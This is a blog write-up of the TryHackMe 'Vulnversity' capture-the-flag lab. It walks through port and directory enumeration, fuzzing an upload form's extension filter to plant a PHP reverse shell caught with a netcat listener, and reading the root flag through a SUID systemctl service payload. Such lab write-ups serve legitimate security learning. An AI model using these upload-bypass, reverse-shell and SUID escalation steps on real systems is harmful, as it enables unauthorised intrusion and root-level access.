Thursday, 20 January 2022 | Author: Mithlonde  
Tags: #TryHackMe, #CTF, #Linux #PrivEsc #SUID  
*https://tryhackme.com/room/vulnversity*




**Table of Contents:**


TryHackMe CTF Writeup: Vulnversity
+ Summary
Walkthrough:
1. Enumeration
2. Exploitation
3. Post Exploitation
4. Conclusion
References

## TryHackMe CTF Writeup: Vulnversity

### Summary 

Vulnversity is a machine that combines reconnaissance, web attack vectors and privilege escalation methods via SUID together.


## Walkthrough:

### 1. Enumeration 

<marker style="background-color: purple">**Target IP:** 10.10.172.125</maker>

+ **Nmap:**

We begin our reconnaissance by running an Nmap scan checking default scripts and to determine the version of the services running.



From the above output we can see that ports, **21, 22, 139, 445, 3128**, and **3333** are open with the corresponding services and versions. Additionally, the machine seems to be running on Ubuntu.

We can also see there is an apache web server running on port 3333 called 'Vuln University' we seem to have access to. Using the Wappalizer it confirms both the server and OS.




+ **Gobuster:**

Time to start gobuster, enumerate the directories and have the output written to a file:
```bash
gobuster dir -u http://10.10.172.125:3333/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -z -o gobuster.txt`
```

Which came up with the results as shown below. We have an upload page *(where we could possibly upload an exploit)*, as well as the index of /images *(http://10.10.172.125:3333/images/)* where our uploads will be stored on the web server:




---
### 2. Exploitation

In order to gain our initial foothold, we need to leverage the ability to upload a file and execute our payload that will eventually lead to compromising the server. Whilst http://10.10.172.125:3333/images/ clearly showed .jpg being stored server side, I tried uploading a test .jpg image, yet received the a message stating the extension was not allowed. After this attempt however, I did notice it redirected to http://10.10.172.125:3333/internal/index.php thus adding the index.php. 

Could not find anything useful regarding to which extension would be blocked and/or allowed in the the source code, thus tried uploading a reverse PHP shell *(download here: https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)* to the server. Unfortunately, this extension seemed to be blocked as well. Meaning there is a Server-Side Filtering we need to bypass.

>With this shell, make sure to change the following to indicate where you want the reverse shell thrown back to:
>
>
>Port will be 3333 since that's where the web server is, and our TryHackMe tun0 ip address can be confirmed through http://10.10.10.10

To identify which extensions are **not** blocked, we are going to fuzz the upload form. To do this, use the **intruder** function on BurpSuite.

First, let's quickly make a wordlist including the php upload file extensions we wish to fuzz the form with and save them to a tmp.txt file *(https://www.file-extension.org/alphabetical/p)*. We then use the `cut` command to exclude everything but the .extension, save it to php.wordlist.txt and remove the tmp.txt file afterwards. We now have a wordlist we can use with burp.


```bash
┌──(mithlonde💀kali)-[~/ctf/tryhackme/vulnversity]
└─$ cat tmp.txt | cut -f 1 > php-wordlist.txt && rm tmp.txt
      
┌──(mithlonde💀kali)-[~/ctf/tryhackme/vulnversity]
└─$ cat php-wordlist.txt                                   
.php
.php1
.php2
.php3
.php4
.php5
.PHPEditProject
.PHPEditSolution
.phps
.phpt
.phr
.phs
.pht
.phtm
.phtml
```

+ **BurpSuite:**

Now with both our reverse php shell and our .extension worldlist set, we head on with BurpSuite.

<marker style="background-color: purple">**Target IP:** 10.10.211.165</maker> has changed due to reboot of the TryHackMe room.

Upload the php-reverse-shell.php again, but this time with BurpSuite intercepting our traffic (I used the BurpSuite native web browser in this instance, thus skipping a different browser its proxy settings) and sent this over to **Intruder**. Click the *"Positions"* tab now, find the filename and *"Add §"* to the extension *(make sure to clear all previously added § symbols first)*. Upload the wordlist and run it.




We can see the .phtml extension has a different output.

>[krygeNNN](https://github.com/krygeNNN/phpenumerate/blob/main/php_uploader.py) also uploaded a python script which makes is way faster to do this.
>
>
>*Source: https://github.com/krygeNNN/phpenumerate/blob/main/php_uploader.py*

All we have to do now is rename our php reverse shell to .phtml `mv php-reverse-shell.php php-reverse-shell.phtml`, upload it again, then run a listener with `nc -lvnp 3333` on our attacker machine and navigate to where our upload has now been stored. At first, I figured this would be the /images page as shown earlier. Considering our upload was not found there, I tried http://10.10.211.165:3333/internal/uploads/php-reverse-shell.phtml instead. This immediately executed the payload and connected back to our netcat listener we had just initialized.



We now have low level user access to the web server as www-data.

---
### 3. Post Exploitation 

Nevertheless, this shell is not stable right now. So let's solve that first so we will not accidentally kick ourselves out again.

1. The first thing to do is use `python3 -c 'import pty;pty.spawn("/bin/bash")'`, which uses Python to spawn a better featured bash shell; note that some targets may need the version of Python specified *(type `python -V` to print the current version number)*. If this is the case, replace `python` with `python2` or `python3` as required. At this point our shell will look a bit prettier, but we still won't be able to use tab to auto complete input, nor the arrow keys, and 'Ctrl + C' will still kill the shell.
2.  Step two is: `export TERM=xterm`, this will give us access to terminal commands such as `clear`.
3.  Finally (and most importantly) we will background the shell using Ctrl + Z. Back in our own terminal we use `stty raw -echo; fg`. This does two things: first, it turns off our own terminal echo (which gives us access to use 'tab' to autocomplete our input, the arrow keys, and 'Ctrl + C' to kill processes). It then foregrounds the shell again, thus completing the process.

> **Note:** *that if the shell dies, any input in your own terminal will not be visible (as a result of having disabled terminal echo). To fix this, type `reset` and press enter.*

We now have a stable shell and can continue with our privilege escalation:



Doing some initial enumeration to see what permissions we might have, we can quickly figure out that `sudo -l` requires us to provide a password. We do have access to both the /etc/passwd and /etc/group files however, where we see that there is another user aside from root 

Nevertheless, since we do not have access to the /etc/shadow file and thus lack the password to these accounts, let's see if we can find any interesting files as www-data instead.

+ **User Flag:**

Moving into the /home directory got us an interesting hash right away.



```bash
www-data@vulnuniversity:/home/bill$ cat user.txt 
8bd7992fbe8*********************         
```



Tried cracking the hash, without any positive result. A quick note to self here, that whilst it being a simple Capture the Flag environment, the flag is all that is required in this instance. Trying anything beyond will probably end up being a rabbit hole. Instead, we will look for other ways to escalate privilege and perhaps bypass the requirement of a password.

In the TryHackMe room one of the questions we are required to answer is as following: "On the system, search for all SUID files. What file stands out?" We can assume here, that we should indeed escalate via SUID.


+ **SUID permission**

Whilst hunting down all files with SUID permission set with the command `find / -perm -u=s -type f 2>/dev/null`, we end up with an extensive list:



And as we can see, the `systemctl` has the SUID bit set (https://gtfobins.github.io/#+suid):




+ **Root Flag:**

Since acquiring root via privilege escalation is not necessary in this case, we can simply get the root flag by issuing the the `systemctl` SUID command. This command needs to be customized a bit so it will print the /root/root.txt file content and save the output to a file we do have permission to read *(/tmp/output)*. We also need to update its correct path to `/bin/systemctl` since that is where it is stored on the system we are attacking:
```bash
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
/bin/systemctl link $TF
/bin/systemctl enable --now $TF
```



Here we have the root flag via a simple escalation via SUID without ever requiring a password.

---

### 4. Conclusion 

We started off with a quick enumeration using Nmap. This lead us to a http web server running on port 3333, including an /internal upload page which we found after an additional Gobuster scan. We then continued fuzzing this upload form with BurpSuite (eventually found a quicker way using a Python script as well) to see what file extension would be allowed *(.phtml)*. We uploaded our PHP reverse shell that gave us low level user access via our initiated Netcat listener, and stabilized our shell to prevent being kicked out.

In the web server we quickly found the user flag. Nevertheless, without any further interesting passwords found, we gathered that the goal in this CTF was not to get full root to everything on the server. Instead, we took advantage of something within the system that completely bypassed this requirement. This finally gave us access to read a specific root file which included our root flag.

That being said, we took advantage of the SUID bit being set in the `bin/systemctl` file. Meaning that if this is set, files will get executed with the privileges of the file owner. So as a low level user, we are still able to access a file that would normally require root privileges. Because of that, we were able to escalate our privileges. 

I struggled a bit while trying to crack the hash of the user flag. I figured this would provide me with the password to log in as Bill and escalate privileges through his username. Yet since I got no results looking anything close to a password, I realized this was simply a flag and found out the privilege escalation was regarding the SUID bit instead *(one of the questions in the TryHackMe room required to answer the following: "On the system, search for all SUID files. What file stands out?")*

Overall, Vulnversity is a really fun CTF machine that combines reconnaissance, web attack vectors and privilege escalation methods via SUID. 

---
### References

1.  https://tryhackme.com/room/vulnversity
2.  https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
4.  https://www.file-extension.org/alphabetical/p
5.  https://github.com/krygeNNN/phpenumerate/blob/main/php_uploader.py

